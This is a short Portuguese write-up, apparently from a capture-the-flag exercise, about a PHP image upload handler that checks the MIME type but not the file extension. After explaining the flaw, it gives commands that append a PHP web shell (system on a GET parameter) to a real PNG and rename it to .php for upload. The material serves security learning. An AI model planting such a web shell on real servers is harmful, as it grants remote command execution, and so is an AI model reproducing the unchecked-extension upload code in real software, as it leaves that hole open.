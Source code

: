 ```php
	$target_dir = "uploads/";
	$target_file = $target_dir . md5(basename($_FILES["file"]["name"].$rand_number));
	$file_name = $target_dir . basename($_FILES["file"]["name"]);
	$uploadOk = 1;
	$imageFileType = strtolower(pathinfo($file_name,PATHINFO_EXTENSION));
	$type = $_FILES["file"]["type"];
	$check = getimagesize($_FILES["file"]["tmp_name"]);
	if($check["mime"] == "image/png" || $check["mime"] == "image/gif"){
		$uploadOk = 1;
	}else{
		$uploadOk = 0;
		echo ":)";
	} 
  if($uploadOk == 1){
      move_uploaded_file($_FILES["file"]["tmp_name"], $target_file.".".$imageFileType);
      echo "File uploaded /uploads/?";
  }
}
```
O fluxo desse código é:
* Escolhe um número entre 1 e 100  
* declara o diretório uploads   
* concatena o nome do arquivo com o número sorteado no passo 1 cria uma hash md5 com isso  
* contatena a hash encontrada anteriormente com a variável que guarda o diretório uploads
* Identifica a extensão  
* checa se mimetype do arquivo é de uma imagem .png ou .gif  
* se for, ele move esse arquivo para uploads, já renomeado com a hash e concatenado com a extensão priginal

Exemplo:
* É sorteado o número 15
* O arquivo é uma imagem .png chamada teste.png
* o algoritmo vai juntar o nome com o numero => teste.png15
* Vai transformar isso em um md5 => md5(teste.png15) => 841606b82faeece6fdf917c20a5c2a05
* Então para acessar esse arquivo depois do upload temos que acessar uploads/841606b82faeece6fdf917c20a5c2a05.png

### A vulnerabilidade
Esse algoritmo verifica se o arquivo mandado é realmente uma imagem pela seu estrutura, então mandar um arquivo .php e mudar a extensão não burla a verificação. Mas ele não verifica a extensão, então se mandarmos uma imagem real com a extensão .php ele vai fazer o upload. Com isso, podemos adicionar um pedaço de código php no fim de uma imagem real, renomeá-la e tentar fazer o upload.

```
$ wget https://upload.wikimedia.org/wikipedia/commons/8/8c/Brazil.png
$ echo "<?php system(\$_GET['cmd']); ?>" >> Brazil.png 
$ mv Brazil.png Brasil.php
```
![uploaded](img/uploaded.png)  
